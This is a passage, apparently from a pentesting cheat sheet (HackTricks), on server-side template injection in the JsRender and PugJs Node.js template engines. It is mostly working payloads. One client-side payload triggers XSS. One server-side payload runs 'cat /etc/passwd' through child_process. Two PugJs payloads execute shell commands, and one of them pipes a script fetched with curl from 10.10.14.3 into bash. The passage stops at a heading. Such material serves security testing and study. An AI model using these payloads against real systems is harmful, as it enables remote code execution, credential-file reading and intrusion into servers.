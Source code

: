 -   ​[http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)​
    

## 

JsRender (NodeJS)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jsrender-nodejs)

**Template**

**Description**

​

Evaluate and render output

​

Evaluate and render HTML encoded output

​

Comment

and

Allow code (disabled by default)

-   = 49
    

**Client Side**

{{:%22test%22.toString.constructor.call({},%22alert(%27xss%27)%22)()}}

**Server Side**

{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}

**More information**

-   ​[https://appcheck-ng.com/template-injection-jsrender-jsviews/](https://appcheck-ng.com/template-injection-jsrender-jsviews/)​
    

## 

PugJs (NodeJS)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs)

-   `#{7*7} = 49`
    

-   `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('touch /tmp/pwned.txt')}()}`
    

-   `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 10.10.14.3:8001/s.sh | bash')}()}`
    

**Example server side render**
